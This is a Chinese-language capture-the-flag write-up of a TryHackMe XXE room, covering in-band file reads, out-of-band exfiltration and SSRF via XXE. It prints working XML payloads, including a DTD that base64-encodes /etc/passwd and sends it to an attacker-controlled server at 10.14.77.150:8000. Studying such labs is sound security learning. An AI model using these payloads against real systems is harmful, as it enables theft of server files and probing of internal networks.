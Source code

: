 # XXE Injection

事实上在去年htba的学习中就接触了xxe的这些知识和技巧，今天我们在thm上通过这个房间进行回顾一下

## 带内XXE

带内XXE是指攻击者可以看到服务器响应的 XXE 漏洞。这允许直接的数据泄露和利用。攻击者可以简单地向应用程序发送恶意 XML 有效负载，服务器将以提取的数据或攻击结果进行响应

访问靶机的contact页面

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/5603ac2d4c7a45fabfd21b909ffe7b31.png)

随便给点数据提交，我们可以看到响应中，返回了我们输入的名字

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/ad57d9b1eb42416da25eb0d7eaac5f46.png)

通过直接定义一般实体，利用file://协议来读取本地文件

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0040d022d0aa452cae5233216eee95cd.png)

## 带外XXE

带外 XXE 是指攻击者无法看到服务器响应的 XXE 漏洞。这需要使用替代通道（如 DNS 或 HTTP 请求）来泄露数据。为了提取数据，攻击者必须构建一个恶意 XML 负载，该负载将触发带外请求，例如 DNS 查询或 HTTP 请求。

访问靶机的index.php

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/a3fe1153bf12414eacc172b3d897661d.png)

上传文件后，看burp log可以发现它是先上传文件到服务端后，再通过xml传递url，从http响应来看，这是blind的，我们需要从带外获取数据

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/44f0e91633b7498a9d99b0c2c019446a.png)

这个时候就得请出我们的参数实体`parameter entity`，通过它，我们可以将读到的文件内容**嵌入**到一般实体中，外带到我们的服务器中，所以这就是为什么要用参数实体的原因。

xxe.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY xxe SYSTEM 'http://10.14.77.150:8000/?d=%file;'>">
%oob;
```

我们有两种简单的写法，这两种写法分别来自thm和htba

### 第一种 - 指定外部DTD

通过直接外部DTD的方式，我们就无需再有多余的操作，最后直接调用外部实体即可完成攻击，相对简洁

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a SYSTEM "http://10.14.77.150:8000/xxe.dtd">
<upload><file>&xxe;</file></upload>
```

burp发起请求

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/c49db5396da44c438a796d71e0efd865.png)

python开个http服务，正常访问dtd文件、正常接收到数据

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e5090e012c94465b9febca4f86b13c62.png)

### 第二种 - 内部DTD参数实体引用外部DTD

通过内部DTD定义参数实体引用外部dtd，一样可以达到效果，但相较于第一种写法，我们需要多定义一个参数实体用于引入外部dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
<!ENTITY % dtd SYSTEM "http://10.14.77.150:8000/xxe.dtd">
%dtd;
]>
<upload><file>&xxe;</file></upload>
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0d391caf0cf34c2abfc533d7b1474b61.png)

与第一种一样可以获取到数据

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/31caa844e0c046918fe4c3f5154f8028.png)

## SSRF + XXE

服务器端请求伪造 （SSRF） 攻击是指攻击者滥用服务器上的功能，导致服务器向意外位置发出请求。在 XXE 上下文中，攻击者可以操纵 XML 输入，使服务器向内部服务发出请求或访问内部文件。此技术可用于扫描内部网络、访问受限制的端点或与只能从服务器的本地网络访问的服务进行交互。

这个相当轻松和简单，因为通过实体访问外部DTD文件，这个http过程本身就可以看作为SSRF，包括我们把数据带出来，都是由服务端向攻击者的服务器发起请求

探测内网http服务

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/6a858dd45d044dfb8adb0d523c0f9547.png)

在内网某个端口中开着http服务，同时拿到flag

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e949d2010cd04a7ebb3d8995a6ef150b.png)

即使是带外的blind盲xxe也一样可以轻松做到这一点，便不再演示了。